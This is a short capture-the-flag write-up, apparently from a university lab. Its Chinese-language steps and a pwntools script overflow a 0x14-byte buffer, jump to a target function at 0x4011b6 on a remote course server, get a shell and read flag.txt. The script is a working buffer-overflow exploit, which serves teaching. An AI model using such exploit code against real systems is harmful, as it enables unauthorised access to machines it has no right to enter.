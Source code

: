 ![](img/2.png)

### 步骤

1. 从二进制中，获得溢出变量长度和目标函数地址，i.e.，`0x14`和`0x004011b6`
2. 攻击服务器，获得shell
3. 用`ls`看服务器文件，然后执行`cat flag.txt` 获得flag

**EXP**

```python
from pwn import * # pip install pwntools

# connect to the server, change it to yours
p = remote("detroit.sustech.edu.cn", 49340)
p.recvline()
p.recvline()
p.recvline()
p.recvline() # receive message

# generate payload
payload = b"a" * 0x14 + p64(0x4011b6)

# send payload
p.sendline(payload)

# get shell
p.interactive()
```
